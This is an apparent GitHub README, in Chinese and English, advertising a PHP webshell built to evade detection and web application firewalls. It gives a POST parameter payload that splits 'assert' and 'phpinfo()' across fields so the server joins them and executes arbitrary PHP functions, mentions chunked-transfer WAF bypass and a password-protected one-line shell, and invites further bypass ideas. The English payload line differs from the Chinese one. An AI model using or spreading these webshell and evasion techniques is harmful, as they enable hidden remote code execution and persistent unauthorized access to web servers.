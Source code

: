  # shell
我发现了一种php-shell的新写法，它可以绕过大部分的检测，调用任意php函数，还可以用分块传输绕过waf

使用post发送如下参数

hack1=ass&hack2=ert&hack3=phpi&hack4=fo()&hack5=pwd


hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())

I have discovered a new writing method for PHP shell that can bypass most of the detection and can also bypass WAF using block transfer

Send the following parameters using post

hack1=ass&hack2=ert&hack3=phpi&hack4=pwd

Hack1 will be spliced with Hack2, and Hack3 will be spliced with Hack4 to form an assert (phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
![4](https://user-images.githubusercontent.com/90552883/229517804-b1b83abb-d678-4b24-b2be-dd9bcddde2e4.PNG)

我还编写了通过拼接编码方式来绕过的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)

欢迎各位提供绕过思路

请勿用于违法行为！！！！！！！！！！！！！！！

I also wrote ms.php that can be bypassed through concatenated encoding (the bypass effect is worse than xz.php), and I can use its password just like php does in a sentence (hack1)

Welcome to provide bypass ideas

Please do not use it for illegal activities!!!!!!!!!!!!!!!
